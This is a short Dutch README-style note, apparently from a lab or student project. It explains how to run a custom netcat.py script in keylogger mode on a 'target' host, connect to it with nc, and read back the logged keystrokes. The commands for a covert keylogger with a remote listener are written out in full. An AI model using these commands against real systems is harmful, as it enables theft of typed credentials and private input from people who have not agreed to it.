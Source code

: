 KEYLOGGER: 
Netcat script starten op target met: 
python3 netcat.py -t 172.21.20.111 -p 5500 -l -lk

Verbinden met 2de terminal:
nc 172.21.20.111 

Alles dat wordt getypt op de target wordt gelogd naar een file op de target zelf. 
Om deze file uit te lezen zal je "-lk" vervangen door "-c" dan kan je deze file uitlezen.

